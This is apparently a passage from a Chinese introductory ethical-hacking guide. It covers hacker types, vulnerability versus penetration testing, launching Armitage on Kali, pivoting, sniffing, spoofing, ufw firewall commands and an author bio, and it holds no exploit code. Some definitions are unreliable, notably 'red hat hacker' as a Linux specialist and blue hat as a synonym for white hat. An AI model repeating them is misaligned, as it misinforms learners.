答：`灰帽黑客`是在黑帽和白帽黑客之间灰色地带运行的黑客。他们可能同时参与防御性和进攻性攻击，并可能将其技能用于合规或不合道德的目的。`灰帽黑客`可能会向组织报告漏洞，但也可能未经许可利用这些漏洞。

### 什么是红帽黑客？
答：`红帽黑客`是一种精通 Linux 操作系统和开源软件的黑客。他们利用技能识别并利用系统中的漏洞，目标通常是通过向相关方报告问题并与其合作修复漏洞来提高安全性。`红帽黑客`还可以被聘佣进行渗透测试或担任安全顾问，帮助组织保护其系统安全。

### 什么是绿帽黑客？
答：`绿帽黑客`是一种专注于发现漏洞和探索新系统及技术的黑客，但他们是以合规的方式并以提高安全性为目标进行操作。他们通常是黑客领域的新手，正在寻求获取知识和经验。

### 什么是蓝帽黑客？
答：`蓝帽黑客`是组织之外的黑客，但受雇或聘佣对组织的系统进行安全评估或渗透测试。他们使用与`黑帽黑客`相同的技术，但在组织的许可和监督下进行，其目标是提高安全性。`蓝帽黑客`也被称为“伦理黑客”或“白帽黑客”。蓝帽攻击的目的是在恶意攻击者利用漏洞之前识别并修复安全漏洞。

### 什么是脚本小子（Script Kiddie）？
答：`脚本小子`是缺乏执行成功攻击所需技术技能的初级黑客，但他们使用其他黑客创建的预写脚本或工具来发动攻击。`脚本小子`通常不是受金钱或个人满足感驱动，而是为了自己的行为寻求关注或认可。

### 什么是黑客行动主义者（Hacktivist）？
答：`黑客行动主义者`是指利用黑客手段促进政治或社会事业的个人或团体。`黑客行动主义者`利用技术入侵计算机系统和网站，经常破坏或破坏这些系统以引起人们对其事业的关注。他们还可能窃取敏感信息并公开发布以推进其议程。虽然黑客行动主义通常出于高尚意图，但它是违法的，并会对组织和个人造成重大伤害。`黑客行动主义者`使用的方法从简单的网站篡改到更复杂的攻击（如分布式拒绝服务（`DDoS`）攻击）。

### 其他黑客类型
- **网络犯罪分子**：`网络犯罪分子`是指利用互联网和其他数字技术实施身份盗取、财务欺诈和网络勒索等非法活动的人。
- **网络战士**：`网络战士`是指利用其黑客技术支持国家或政治意识形态的个人或团体。他们可能参与网络间谍活动、破坏和其他恶意活动以支持其事业。
- **内部威胁**：`内部威胁`是指对组织系统拥有授权访问权限并利用该权限造成伤害的个人。他们可能会窃取敏感信息、损坏系统或干扰运营。
- **APT（高级持续性威胁）**：`APT`是一组高技能且动机强烈的黑客，他们针对特定的组织，目标是获取获取其系统的长期访问权限。`APT`攻击通常资金充足、手段复杂，且难以检测和防御。
- **域名抢持者**：`域名抢持者`是指注册域名意图是为了获利出售的人。他们还可能利用域名传播恶意软件或发起钓鱼攻击。
- **国家支持黑客**：`国家支持黑客`是指受政府雇佣或代表政府工作以进行网络间谍活动、破坏或其他恶意活动的个人或团体。

## 漏洞测试和渗透测试之间有什么区别？

`漏洞测试`和渗透测试（`pen-testing`）都是用于评估系统和网络安全性的方法，但它们有不同的目标和方法。

`漏洞测试`涉及扫描系统和网络以识别安全控制中的漏洞和弱点。`漏洞测试`的目标是发现并报告潜在的安全风险，以便在被利用之前进行修复。`漏洞测试`通常是自动化的，并定期执行，例如每月或每三个月一次。

另一方面，`渗透测试`涉及以受控和模拟的方式尝试利用漏洞以评估系统和网络的安全性。`渗透测试`的目标是确定网络或系统防御攻击的能力如何，并识别需要改进的。`渗透测试`通常由安全专家执行，是对系统安全性测试的一种更全面、更深入的方法。

## 如何在 Kali Linux 上运行 Armitage？

要在 Kali Linux 上运行 `Armitage`，你可以遵循以下步骤：

1. 启动 Kali Linux 终端。
2. 输入命令 `msfconsole` 检查系统是否安装了 Metasploit Framework。
3. 如果没有安装 Metasploit Framework，可以通过输入命令 `apt-get install metasploit-framework` 进行安装。
4. 接下来，输入命令 `apt-get install armitage` 安装 `armitage`。
5. 安装完成后，在终端中输入 `Armitage` 启动 `Armitage`。
6. 将出现一个图形界面，你可以通过连接到 Metasploit 实例开始使用 `Armitage`。
7. 如果你已经运行了 Metasploit 实例，可以通过 File 菜单中的 `Connect to MSF` 与其连接。如果你没有运行 Metasploit 实例，可以通过选择 File 菜单中的 `Start MSF` 来启动一个实例。

## 如何针对 IP 地址使用 Armitage？

## 什么是跳转（Pivoting）？

`跳转（Pivoting）`是渗透测试中使用的一种技术，用于将攻击范围从被攻破的主机扩展到同一网络上的其他系统。`跳转`的目标是获取那些无法从攻击者机器直接访问、但可以通过被攻破系统访问的系统的权限。


渗透（Pivoting）是通过配置一个受攻击的系统作为攻击者的中继或代理来实现，允许攻击者间接访问同一网络上的其他系统。这可以通过配置网络路由、设置 SOCKS 代理或使用类似的技术来实现。

渗透通常与其他渗透测试技术（如漏洞利用和侦察）结合使用，以访问无法直接访问的系统并扩大攻击范围。

## 什么是嗅探（Sniffing）？

嗅探是出于分析目的而拦截和捕获网络流量的过程。嗅探可以用于合法目的，例如排查网络问题或出于安全考虑而监控网络流量。然而，它也可以被用于恶意目的，例如窃取通过网络传输的敏感信息。

## 什么是欺骗（Spoofing）？

另一方面，欺骗是在网络通信中假装成某人或某物的过程。这可以通过伪造网络数据包的源地址来实现，使其看起来来自不同的设备或位置。欺骗可以用于恶意目的，例如伪装成信任的设备以获取网络或系统的访问权限，或发起拒绝服务攻击。

## 什么是 ufw？

`ufw`（简单防火墙）工具是 Kali Linux 中配置防火墙的一种用户友好的方法。要使用 `ufw`，你需要在终端运行以下命令：

启用防火墙：

```bash
$ sudo ufw enable
```

检查防火墙状态：

```bash
$ sudo ufw status
```

允许特定服务的入站流量：

```bash
$ sudo ufw allow [service]
```

其中 `[service]` 是你想要允许入站流量的服务名称，例如 `SSH`、`HTTP` 或 `HTTPS`。

拒绝特定服务的入站流量：

```bash
$ sudo ufw deny [service]
```

其中 `[service]` 是你想要拒绝入站流量的服务名称。

欲需更多信息，请访问：https://www.kali.org

## 关于作者

认识 EL Mostafa Ouchen，他是一位信息技术领域经验丰富且经过认证的专业。凭借超过 16 年的经验，他带来了丰富的知识和专业技能。他对技术的热热让他投入了持续学习的旅程，他在行业内的成就不言而喻。

### 专业背景：

EL Mostafa Ouchen 将职业致力于信息技术领域，重点关注网络和安全。通过获得 `CCNP Enterprise` 和 `Security` 认证，他的经验得到了进一步巩。这些认证展示了他的设计、实施和排错企业网络以及确保其安全性的能力。他在该领域的专业知识不可置疑的，他的经验使他能够轻松应对复杂的挑战。

### 对学习的承诺：

多年来，EL Mostafa Ouchen 对学习的承诺从未动摇，他继续投入于自己的职业成长。他对行业的热奉献体现在对额外认证的追求中，包括 `认证伦理黑客 (CEH)` 和 `Linux` 认证。这些认证分别证明了作者对信息安全和 Linux 操作系统的全方位理解。

### 结论：

EL Mostafa Ouchen 丰富的经验和对学习的承诺使其成为信息技术领域的一个宝贵资源。他广泛的技能和对各种技术的深刻理解将为读者提供丰富的信息和见解。

